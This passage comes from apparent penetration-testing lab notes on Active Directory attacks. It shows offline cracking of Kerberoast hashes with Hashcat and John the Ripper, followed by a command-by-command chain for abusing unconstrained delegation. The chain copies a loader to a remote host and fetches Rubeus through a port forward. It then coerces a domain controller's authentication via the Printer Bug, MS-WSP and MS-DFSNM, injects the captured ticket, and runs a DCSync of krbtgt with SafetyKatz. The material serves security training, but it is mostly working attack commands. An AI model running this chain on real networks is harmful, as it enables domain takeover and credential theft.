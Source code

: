 The `krb5tgs` hashes can be cracked offline using [Hashcat](https://x7331.gitbook.io/boxes/tools/passwords/hashcat) or [JtR](https://x7331.gitbook.io/boxes/tools/passwords/john):

{% code overflow="wrap" %}
```bash
# Crack the hashes using Hashcat
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Crack the hashes using John the Ripper
.\john.exe --wordlist=<wordlist> hashes.kerberoast
```
{% endcode %}
{% endtab %}

{% tab title="UD" %}
Unconstrained → impersonate any user to any service (LA → DA):

{% hint style="warning" %}
* RPRN → FQDN
* WSP/DFS → netBIOS
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Enumerate servers with UD enabled (PowerView)
Get-DomainComputer -Unconstrained | select name

# Start a process as the LA of the target host
Loader.exe -path Rubeus.exe -args asktgt /user:<LA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Copy binary to the target host
echo F | xcopy Loader.exe \\dcorp-appsrv\c$\users\public\loader.exe

# Connect to the target host
winrs -r:dcorp-appsrv cmd

# Create a port forward
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=172.16.100.37 connectport=80

# Start Rubeus in listener mode
c:\users\public\loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:dcorp-dc$ /interval:5 /nowrap

# Force coercion via the Printer Bug (as student337 on dcorp-std337)
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
# Force coercion via MS-WSP (as student337 on dcorp-std337)
Loader.exe -path WSPCoerce.exe -args dcorp-dc dcorp-appsrv
# Force coercion via MS-DFSNM (as student337 on dcorp-std337)
DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv

# The Base64-encoded ticket of dcorp-dc$ will appear on the listener

# Inject the ticket in the current session
Loader.exe -path Rubeus.exe -args ptt /ticket:doI...BTA==

# Perform DCSyc to test the ticket
Loader.exe -path SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}
